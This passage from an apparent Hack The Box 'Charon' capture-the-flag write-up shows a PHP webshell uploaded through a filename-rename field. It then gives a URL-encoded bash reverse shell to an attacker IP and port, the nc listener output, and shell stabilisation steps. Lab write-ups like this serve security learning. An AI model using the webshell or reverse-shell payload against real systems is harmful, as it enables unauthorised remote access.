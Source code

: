 
another field appears in the website 


![](assets/img/htb/charon/new_field.png)

this field allows to change the filename of the uploaded file


![](assets/img/htb/charon/field_1.png)

to exploit this first I upload an image with a filename shell.php


![](assets/img/htb/charon/upload_1.png)

I change the file content to a webshell


![](assets/img/htb/charon/upload_2.png)

a success message confirms the upload


![](assets/img/htb/charon/upload_3.png)

and I'm able to execute commands remotely


![](assets/img/htb/charon/command_1.png)

sending a request to the webshell allows me to get a reverse shell

```
http://10.10.10.31/images/shell.php?x=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.13/9001%200%3E%261%22
```

```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.31] 50430
bash: cannot set terminal process group (1357): Inappropriate ioctl for device
bash: no job control in this shell
www-data@charon:/var/www/html/freeeze/images$ 
```

To stabilize the shell I do 

- script /dev/null -c bash
- ctrl z
- stty raw -echo ; fg
- reset xterm
- export TERM=xterm
- stty rows 39 columns 155 (change this to your terminal size, check stty size to know your terminal dimensions)

## shell as decoder
